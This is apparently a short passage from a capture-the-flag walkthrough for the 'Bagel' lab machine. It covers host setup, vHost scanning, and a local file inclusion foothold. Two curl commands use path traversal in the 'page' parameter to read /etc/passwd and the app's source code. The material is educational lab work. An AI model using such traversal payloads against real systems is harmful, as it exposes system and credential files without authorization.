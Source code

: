 

* Add `bagel.htb` in /etc/hosts file.
* Run vHost scanning with ffuf in background.

# Foothold

## LFI

There is a LFI in `http://bagel.htb:8000/?page=index.html` "page" parameter.

```bash
curl -i -s 'http://bagel.htb:8000/?page=../../../../etc/passwd'
```

![](screenshots/http-bagel.htb-8000-LFI.png)

And got application source

```bash
curl -i -s 'http://bagel.htb:8000/?page=../app.py'
```
